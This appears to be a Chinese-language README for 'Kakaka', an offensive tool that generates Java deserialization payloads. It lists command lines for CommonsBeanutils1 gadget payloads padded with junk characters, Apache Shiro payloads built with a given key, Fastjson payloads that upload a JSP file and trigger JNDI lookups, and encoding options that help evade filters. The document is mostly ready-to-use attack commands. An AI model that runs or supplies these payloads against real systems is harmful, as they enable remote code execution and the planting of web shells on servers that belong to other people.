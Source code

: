 # Kakaka

## 生成各种payload

java -jar Kakaka.jar -yso CommonsBeanutils1 -c whoami -d 2000 -raw 生成一个带2000个脏字符的原始payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204631.png)
 
java -jar Kakaka.jar -shiro -g CommonsBeanutils1 -c whoami -k a3dvbmcAAAAAAAAAAAAAAA== 指定key和gadget生成shiro payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204714.png)

java -jar Kakaka.jar -fastjson upload -lf dogma.jsp -rf /tmp/dogma.jsp 生成fastjson文件上传payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204800.png)

java -jar Kakaka.jar -fastjson jndi -u 127.0.0.1 

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204823.png)

## 支持编码

按照参数顺序编码

支持：

  -ue  url编码
  
  -he  html编码
  
  -be  base64编码
  
  -xe  xml编码
